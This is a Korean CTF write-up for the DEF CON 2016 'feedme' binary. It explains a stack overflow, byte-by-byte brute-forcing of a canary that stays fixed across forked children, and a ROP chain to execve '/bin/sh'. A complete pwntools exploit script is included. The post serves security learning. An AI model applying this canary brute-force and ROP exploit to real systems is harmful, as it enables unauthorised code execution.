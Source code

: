 ```yaml
---
title: "2016 Defcon CTF Feedme"
date: 2019-12-30
ctf: Defcon CTF
layout: post
published : false
---
```


```
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

바이너리 stripped 되어있고 statically linked라 좀 분석하기 어려워졌다.

`0x0804917A` 여기가 메인 함수고 메인함수에서는 그냥 signal함수를 이용해 SIGALARM을 150초 설정해놨다. 

그 이후  `sub_80490B0` 함수를 호출하는데 이 함수에서는 fork를 이용해 자식 프로세스를 생성한다. 0x31F번을 반복하는데 이 곳에서 우리가 입력받는 함수도 호출해준다. 

```c
int sub_8049036()
{
  unsigned __int8 v0; // ST1B_1
  char *v1; // eax
  int result; // eax
  char v3; // [esp+1Ch] [ebp-2Ch]
  unsigned int v4; // [esp+3Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  sub_804FC60("FEED ME!"); // puts
  v0 = sub_8048E42(); // size
  sub_8048E7E(&v3, v0); // input
  v1 = sub_8048F6E(&v3, v0, 0x10u); // convert 10 -> 16
  sub_804F700("ATE %s\n", v1); // printf
  result = v0;
  if ( __readgsdword(0x14u) != v4 )
    sub_806F5B0();
  return result;
}
```

여기가 우리가 입력받는 함수다. canary가 걸려있다. 

`sub_8048E42()` 함수는 입력한 문자열의 아스키 값을 v0에 저장한다. 

 `sub_8048E7E` 함수에서는 v0의 크기만큼을 입력을 받는데 v3 버퍼에 저장해준다.

`sub_8048F6E` 요기서 16진수 hex값으로 변환해준다. 

`sub_806F5B0()` 여기는 그냥 카나리 값 비교해주고 stack smashing detect 띄워주는 곳이다.

여기서 취약점 터진다. 카나리를 제외하고 buf 크기는 0x20만큼이다. 근데 여기서 buf 다음에 카나리가 있어서 canary 값을 1 byte bruteforce해줘서 canary leak해 줄 수 있다. 그리고 fork를 사용하기 때문에 카나리가 고정 값이다. `stack smashing detected` 가 안 뜰때 까지 bruteforing 해주면 된다.

익스는 그냥 statically linked 바이너리라 웬만한 가젯들이 다 있어서 syscall을 위한 가젯들이 다 있을거다.

 `int0x80 ret;  pop eax ret; pop ebx pop ecx pop ebx ret;` 이 가젯들 이용해서 syscall 다 맞춰줘서 read 이용해 bss영역에 `/bin/sh\x00` 을 넣고 `execve` 함수 이용해서 익스했다. 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'

e = ELF('./feedme')
p = process('./feedme')

peax = 0x080bb496 # pop eax ; ret
pop3ret = 0x0806f370 # pop edx ; pop ecx ; pop ebx ; ret
int0x80 = 0x0806fa20 # int 0x80 ; ret  ;  (1 found)

canary = ''
p.recvuntil('FEED ME!\n')
for j in range(0,4):
	for i in range(0,256):
		go = 'A'*0x20+canary+chr(i)
		p.send(chr(len(go)))
		p.send(go)
		if not 'stack smashing detected' in p.recvuntil("FEED ME!\n"):
			canary += chr(i)
			print canary
			break
log.info('canary : ' + canary)

payload = 'A'*0x20
payload += canary
payload += 'B'*12
payload += p32(peax) + p32(0x3)
payload += p32(pop3ret) + p32(10) + p32(e.bss()) + p32(0) + p32(int0x80)
payload += p32(peax) + p32(0xb)
payload += p32(pop3ret) + p32(0) + p32(0) + p32(e.bss()) + p32(int0x80)

p.send(chr(len(payload)))
p.send(payload)
sleep(0.1)
p.send('/bin/sh\x00')

p.interactive()
```





